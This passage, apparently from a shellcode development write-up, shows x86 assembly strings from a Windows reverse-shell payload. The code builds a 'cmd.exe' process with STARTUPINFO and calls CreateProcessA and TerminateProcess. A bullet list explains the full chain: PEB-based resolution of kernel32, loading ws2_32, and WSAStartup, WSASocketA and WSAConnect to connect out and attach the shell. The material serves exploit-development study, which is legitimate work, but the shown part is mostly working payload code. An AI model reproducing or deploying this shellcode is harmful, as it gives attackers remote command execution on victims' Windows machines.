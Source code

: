     "       push eax                        ;",
    "       xor eax, eax                    ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       mov al, 0x44                    ;",
    "       push eax                        ;",
    "       push esp                        ;",
    "       pop edi                         ;",
    "   create_cmd_string:                   ",
    "       mov eax, 0xff9a879b             ;",
    "       neg eax                         ;",
    "       push eax                        ;",
    "       push 0x2e646d63                 ;",
    "       push esp                        ;",
    "       pop ebx                         ;",
    "   call_createprocessa:                 ",
    "       mov eax, esp                    ;",
    "       xor ecx, ecx                    ;",
    "       mov cx, 0x390                   ;",
    "       sub eax, ecx                    ;",
    "       push eax                        ;",
    "       push edi                        ;",
    "       xor eax, eax                    ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       inc eax                         ;",
    "       push eax                        ;",
    "       dec eax                         ;",
    "       push eax                        ;",
    "       push eax                        ;",
    "       push ebx                        ;",
    "       push eax                        ;",
    "       call dword ptr [ebp+0x18]       ;",
    "   exec_shellcode:                      ",
    "       xor ecx, ecx                    ;",
    "       push ecx                        ;",
    "       push 0xffffffff                 ;",
    "       call dword ptr [ebp+0x10]       ;",
    ```
    
    The shellcode effectively does the following:
    
    - Resolve kernel32 using the PEB method
    - Resolve the address for *TerminateProcess*(0x78b5b983), *LoadLibraryA*(0xec0e4e8e) and *CreateProcessA*(0x16b3fe72) within kernel32.
    - Loads w2_32 using *loadLibraryA*
    - Resolves the address for *WSAStartup*(0x3bfcedcb), *WSASocketA*(0xadf509d9) and *WSAConnect*(0xb32dba0c) within w2_32.
    - Next we call setup the stack to call WSAStartup which initiates the use of the Winsock DLL by a process
    - The calling of *WSASocketA* will create the socket.
    - Finally calling *WSAConnect* establishes the connection for us.
    - We finally call *CreateProcessA* followed by *TerminateProcess*.